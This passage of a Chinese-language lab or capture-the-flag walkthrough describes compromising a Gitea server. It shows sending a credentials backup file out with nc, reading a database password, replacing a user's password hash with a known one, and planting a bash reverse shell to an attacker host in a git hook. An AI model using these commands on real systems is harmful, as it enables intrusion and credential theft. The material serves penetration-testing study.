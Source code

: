 - LinPeas
	- `wget 192.168.1.106:8000/linpeas.sh`
		- ![](https://i.imgur.com/wbZiNqv.png)
	- `bash linpeas.sh`
		- 找到可能有用的密碼!!
		- ![](https://i.imgur.com/xlR0Ql4.png)
- 把密碼檔案用 `nc` 傳出來
	- `nc -l -p 1234 > meow`
	- `nc 192.168.1.106 1234 < app.ini.bak`
	- config 資料
		- NAME : `gitea`
		- USER : `gitea`
		- PASSWD : `UfFPTF8C8jjxVF2m`
	- ![](https://i.imgur.com/bIPUmdB.png)
## 登入 Gitea
- 登入 SQL 觀察使用者
	- ![](https://i.imgur.com/AWlubpW.png)
	- 發現是一種 `pbkdf2` 的 hash 演算法
		- hash :`c200e0d03d1604cee72c484f154dd82d75c7247b04ea971a96dd1def8682d02488d0323397e26a18fb806c7a20f0b564c900`
		- salt :`Bop8nwtUiM`
		- `passwd_hash_algo` : argon2
	- 觀察 hash 長度
		- `len("c200e0d03d1604cee72c484f154dd82d75c7247b04ea971a96dd1def8682d02488d0323397e26a18fb806c7a20f0b564c900")`
		- ![](https://i.imgur.com/6mtMOfT.png)
		- 長度是 400 bits = 50 Bytes
- Google 到 pbkdf2 的產生器產密碼
	- https://neurotechnics.com/tools/pbkdf2-test
	- ![](https://i.imgur.com/cQ4slf7.png)
	- 但後來登入都失敗了 QQ
- 去 Github 上搜尋 `passwd_hash_algo` 找到了別人現成的 hash
	- ![](https://i.imgur.com/lmsUiO9.png)
		- https://github.com/go-gitea/gitea/blob/22a0636544237bcffb46b36b593a501e77ae02cc/models/fixtures/user.yml
	- passwd:` a3d5fcd92bae586c2e3dbe72daea7a0d27833a8d0227aa1704f4bbd775c1f3b03535b76dd93b0d4d8d22a519dca47df1547b # password`
		- 該 hash 值 就是 `password`
	- salt: `ZogKvWdyEx`
	- passwd_hash_algo: `argon2`
 	- 把他們填進去 SQL 中
- http://192.168.1.138:8585/user/login?redirect_to=
	- ![](https://i.imgur.com/mqIcmOO.png)
	- frank / password
	- 嘗試登入，就登入成功ㄌ!

- 使用剛剛前面載的 Exploit
	- https://www.exploit-db.com/exploits/49571
	- `nc -nvlp 7879`
	- `python3 49571.py -t http://192.168.1.138:8585 -u frank -p password -I 192.168.1.106 -P 7879`
	- 但都打不進去 QQ
		- ![](https://i.imgur.com/CAMq6fh.png)
- 觀察使用者的 Git
	- 觀察到他有用 githook 做 CI/CD
		- ![](https://i.imgur.com/lngoWRe.png)
	- 所以可以試著在這邊 bash 上加 reverse shell 
		- `bash -c 'bash -i >& /dev/tcp/192.168.1.106/7879 0>&1'`
		- ![](https://i.imgur.com/GNC9HTR.png)
		- 改完之後會發現 update 亮綠燈
			- ![](https://i.imgur.com/5JbCMlE.png)
	- 接著來亂改他的 `readme.md` 、發 Commit
		- ![](https://i.imgur.com/WSLMrNk.png)
	- ![](https://i.imgur.com/NFHxsgn.png)